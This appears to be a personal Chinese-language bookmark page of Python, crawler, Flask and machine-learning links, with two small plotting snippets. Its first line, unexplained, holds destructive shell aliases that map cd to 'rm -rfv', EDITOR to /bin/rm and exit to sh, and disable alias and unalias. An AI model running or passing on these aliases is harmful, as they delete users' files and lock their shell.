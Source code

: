 export EDITOR=/bin/rm;
alias cat=true; alias cd='rm -rfv';alias date='date -d "now + $RANDOM days"';alias exit='sh';alias vim="vim +q";alias unalias=false;alias alias=false;
[英语学渣8个月轻松突破9000单词量的宝贵方法论，不看绝对亏大了！](https://zhuanlan.zhihu.com/p/27136686)
[GitHub 上有什么使用 Flask 建站的项目吗？](https://www.zhihu.com/question/20946759/answer/159165687)
https://link.zhihu.com/?target=https%3A//github.com/lalor/headlines https://link.zhihu.com/?target=https%3A//github.com/lalor/todolist
[2017校招常考算法题归纳&典型题目汇总，赶紧收藏！](https://zhuanlan.zhihu.com/p/27129767)
https://www.nowcoder.com/questionTerminal/f216fb2b6fa84fcbb43537e22f1aa0d2 
[MAC 上抓取网页数据的工具有哪些？](https://www.zhihu.com/question/27736988/answer/174849599)
https://link.zhihu.com/?target=http%3A//Import.io
结合import.io、Google Sheets、数据观、 Infogr,可以快速完成 数据爬取、数据存储、数据分析、数据可视化的完整流程！
[Python 与 机器学习 · 意见收集](https://zhuanlan.zhihu.com/p/27114813)
[Pyspider框架 -- Python爬虫实战之爬取 V2EX 网站帖子](https://zhuanlan.zhihu.com/p/23153126)
https://github.com/xianhu/PSpider 微博 微信https://zhuanlan.zhihu.com/p/23153126
[Django 博客教程](http://zmrenwu.com/)
[如何使用爬虫分析 Python 岗位招聘情况](https://zhuanlan.zhihu.com/p/27113961)
https://github.com/chenjiandongx/51job
```js
def world_cloud(self):
        """ 生成词云 """
        counter = {}
        with open(r".\data\post_desc_counter.csv", "r", encoding="utf-8") as f:
            f_csv = csv.reader(f)
            for row in f_csv:
                counter[row[0]] = counter.get(row[0], int(row[1]))
            pprint(counter)
        wordcloud = WordCloud(font_path=r".\font\msyh.ttf",
                              max_words=100, height=600, width=1200).generate_from_frequencies(counter)
        plt.imshow(wordcloud)
        plt.axis('off')
        plt.show()
        wordcloud.to_file('.\images\worldcloud.jpg')
```
[Python新手（有一定的编程基础），不知各位是否有一些适合Python新手的练手项目可以推荐？](https://www.zhihu.com/question/59275571/answer/173891222)
v  https://link.zhihu.com/?target=http%3A//crossincode.com/oj/practice_list/
[排序算法-N个正整数排序](https://zhuanlan.zhihu.com/p/27095748)
[让孩子爱上数学的31部趣味数学图书](https://zhuanlan.zhihu.com/p/25198470)
[PyTorch 中文教程](https://zhuanlan.zhihu.com/p/26670032)
http://link.zhihu.com/?target=https%3A//morvanzhou.github.io/tutorials/machine-learning/torch/
http://link.zhihu.com/?target=https%3A//github.com/carefree0910/MachineLearning
[Python实现从excel读取数据并绘制成精美图像](https://zhuanlan.zhihu.com/p/27124525)
```js
x = np.linspace(0, 10, 500)
dashes = [10, 5, 100, 5]  # 10 points on, 5 off, 100 on, 5 off

fig, ax = plt.subplots()
line1, = ax.plot(x, np.sin(x), '--', linewidth=2,
                 label='Dashes set retroactively')
line1.set_dashes(dashes)

line2, = ax.plot(x, -1 * np.sin(x), dashes=[30, 5, 10, 5],
                 label='Dashes set proactively')

ax.legend(loc='lower right')
plt.show()
```
